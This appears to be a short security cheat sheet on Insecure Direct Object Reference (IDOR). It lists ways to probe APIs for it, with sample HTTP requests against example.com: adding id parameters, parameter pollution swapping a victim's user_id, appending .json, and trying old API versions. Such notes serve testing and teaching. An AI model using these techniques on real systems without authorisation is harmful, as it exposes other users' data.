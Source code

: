 ## Insecure Direct Object Reference (IDOR)

### Introduction

> IDOR stands for Insecure Direct Object Reference is a security vulnerability in which a user is able to access and make changes to data of any other user present in the system.

### Where to find

*   Usually it can be found in APIs.
*   Check the HTTP request that contain unique ID, for example `user_id` or `id`

### How to exploit

1.  Add parameters onto the endpoints for example, if there was

```
GET /api/v1/getuser HTTP/1
Host: example.com
...
```

> Try this to bypass

```
GET /api/v1/getuser?id=1234 HTTP/1
Host: example.com
...
```

2.  HTTP Parameter pollution

```
POST /api/get_profile HTTP/1
Host: example.com
...

user_id=hacker_id&user_id=victim_id
```

3.  Add .json to the endpoint

```
GET /v2/GetData/1234 HTTP/1
Host: example.com
...
```

> Try this to bypass

```
GET /v2/GetData/1234.json HTTP/1
Host: example.com
...
```

4.  Test on outdated API Versions
